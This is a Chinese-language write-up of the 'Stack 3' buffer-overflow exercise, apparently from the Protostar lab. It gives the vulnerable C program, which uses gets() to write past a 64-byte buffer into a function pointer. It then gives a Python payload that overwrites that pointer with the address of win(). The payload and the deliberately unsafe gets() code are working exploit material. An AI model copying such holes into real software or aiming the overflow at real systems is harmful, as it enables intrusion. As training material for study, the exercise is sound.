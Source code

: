 # Stack 3

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void win\(\)

{

printf\("code flow successfully changed\n"\);

}

int main\(int argc, char \*\*argv\)

{

volatile int \(\*fp\)\(\);

char buffer\[64\];

fp = 0;

gets\(buffer\);

if\(fp\) {

```
  printf\("calling function pointer, jumping to 0x%08x\n", fp\);

  fp\(\);
```

}

}

## （二）解题过程：

依旧是栈溢出的题目。变量 函数在内存中的分配和调用顺序

buffer\[64\]

\*fp

ebp

返回地址

argc

argv

本题就是要把指针地址修改成win\(\)的入口地址。

先覆盖\*fp

覆盖后的地址是win\(\)入口地址

思路：

python -c "print 'a'\*64+ win\(\)入口地址"

用gdb或者ida查看win\(\)入口地址

![](/png/11.png) 

地址为0x08048424

所以exploit中的payload

python -c "print 'a'\*64+'\x24\x84\x04\x08'







